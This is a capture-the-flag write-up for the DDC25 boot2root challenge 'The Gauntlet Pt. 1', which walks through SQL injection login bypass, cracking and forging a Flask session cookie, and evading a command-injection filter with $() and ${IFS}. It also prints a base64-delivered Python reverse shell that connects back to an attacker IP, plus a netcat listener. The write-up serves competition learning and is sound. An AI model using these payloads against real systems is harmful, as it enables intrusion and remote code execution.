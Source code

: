 ```yaml
---
title: The Gauntlet Pt. 1
date: 2025-03-16 00:00 +/-TTTT
categories: [CTF Writeups, DDC25]
tags: [DDC, Boot2Root, Web Exploitation] 
media_subpath: /assets/img/TheGauntlet
---
```


## 🗒️ Challenge description 
>So, you think you're a l33t h4xx0r? Alright, here's my little gauntlet to you then: Break in through the website and get a shell one way or another. Once that's done, escalate your privileges and own the box. You won't be needing any fancy kernel exploits or such, this one's all about bad practices and misconfigurations. Doesn't sound too hard, now does it? Good luck!

>Flag binaries are located at /home/*****/user.flag and /root/root.flag

> the-gauntlet.hkn

## 😎 Writeup

Visiting the website in the browser yields connection refused, which means the website is not running on the default port 80. Running a port scan reveals that the website is running on port 5000.

```bash
nmap -p- -sV -sC -T4 the-gauntlet.hkn
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.7.3)
```

Navigating to the website, we see a simple login page. Trying to login with the character `'` in the username field gives us an error message. This indicates that the website may be vulnerable to SQL injection.

Attempting to login with the very common SQL payload `' or 1=1 --` in the username field logs us in as the `Bob` user.

There is an admin page, but our user Bob is not an admin.
Attempting to login with an admin username yields no results.

Our session cookie looks a lot like a JTW, but knowing that the server is liekly running Flask (From the Werkzeug httpd version), it's likely a Flask session cookie.

We can use the `flask-unsign` tool to decode the cookie and see what's inside.

```bash
$ flask-unsign --cookie "eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dRAQ.VMZ6dtW1yBAULzog_qaILJCn8jc" --decode
$ {'user': {'is_admin': False, 'username': 'Bob'}}
```

The user Bob is clearly not admin. We can't just change the flask session cookie directly, because it is signed with a secret key. However, we can attempt to crack the secret key using a wordlist, such as the well-known `rockyou.txt`.

```bash
$ flask-unsign --cookie "eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dRAQ.VMZ6dtW1yBAULzog_qaILJCn8jc" --unsign --wordlist ~/Downloads/rockyou.txt --no-literal-eval
[*] Session decodes to: {'user': {'is_admin': False, 'username': 'Bob'}}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 11264 attempts
b'itsasecret'
```

We got it! The secret is `itsasecret`. Now we can craft our own session cookie and sign it with the secret key.

```bash
$ flask-unsign --secret itsasecret -s --cookie "{'user': {'is_admin': False, 'username': 'Bob'}}"
eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dTQQ.6nlu0kizN9TCtjct7R6GVti_1Z8
```

Now we can change the session cookie in our browser to the crafted one and refresh the page. We are now logged in as the admin user.
The admin page contains a ping tool that allows us to ping an IP address. This may be vulnerable to command injection. Attempting to ping the address `127.0.0.1 & whoami` could give us the current user. However, upon trying this we get an error message: `Illegal characters detected`.

Upon further trial and error, we find that `&`, `|`, `;`, and `&&` are all blocked. Even all whitespaces are blocked. This makes it incredibly difficult to perform command injection. But not impossible...

We can use the `$(command)` syntax to execute commands. This syntax is not blocked by the filter. We can use this to execute the command `$(whoami)`, which gives us `user1` in the output, awesome! We have (cursed) command injecion! 🎉

Now we just need to somehow create a reverse shell. But looking at [revshells.com](https://www.revshells.com/), we see that all the reverse shells require the use of illegal characters. The biggest problem is the lack of spaces. But there is a shell trick that allows us to bypass this limitation: the `IFS` variable. Typing `${IFS}` is equivalent to typing a space. 

Create a reverse shell is still very tricky with the limited characters we have. We can potentially use a python reverse shell, and encode it in base64 to avoid using illegal characters. We can then decode the base64 on the server side.

```python
BASE_URL = 'http://10.42.4.137:5000'
OUR_IP = '10.0.240.251'
PORT = 4242
python_payload = 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("' + OUR_IP + '",' + str(PORT) + '));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

s = requests.Session()
s.cookies['session'] = 'eyJ1c2VyIjp7ImlzX2FkbWluIjp0cnVlLCJ1c2VybmFtZSI6IkJvYiJ9fQ.Z7pi7A.i2nPlzBdXCYgAivTzHxXx8pdxTg'

s.post(BASE_URL + "/admin", data={"command": "$(echo${IFS}'" + base64.b64encode(python_payload.encode()).decode() + "'>base64_payload.txt)"})
```

This will create a file `base64_payload.txt` on the server with the base64 encoded python payload. We can then decode this payload using on the server.

```python
s.post(BASE_URL + "/admin", data={"command": "$(base64${IFS}-d${IFS}base64_payload.txt>shell.py)"})
```

This will create a file `shell.py` on the server with the decoded python payload. Now lets listen for the reverse shell.

```bash
nc -l 4242
```

Finally, we can execute the python payload to get a reverse shell.

```python
s.post(BASE_URL + "/admin", data={"command": "$(python${IFS}shell.py)"})
```

We now have a reverse shell as the user `user1`. We can find the user flag at `/home/user1/user.flag`.

```bash
$ ./home/user1/user.flag
$ Press enter within 3 seconds:
$ DDC{n0th1ng_l1k3_4_b1t_0f_RCE}
```

And that's our flag! 🚩

## 🤓 TL;DR
1. Found Flask website running on port 5000
2. Used SQL injection (`' or 1=1 --`) to login as Bob
3. Cracked session cookie secret key with flask-unsign (`itsasecret`)
4. Forged admin cookie to access admin panel
5. Bypassed command injection filter with `$()` and `${IFS}`
6. Created base64-encoded Python reverse shell
7. Got reverse shell and flag: `DDC{n0th1ng_l1k3_4_b1t_0f_RCE}`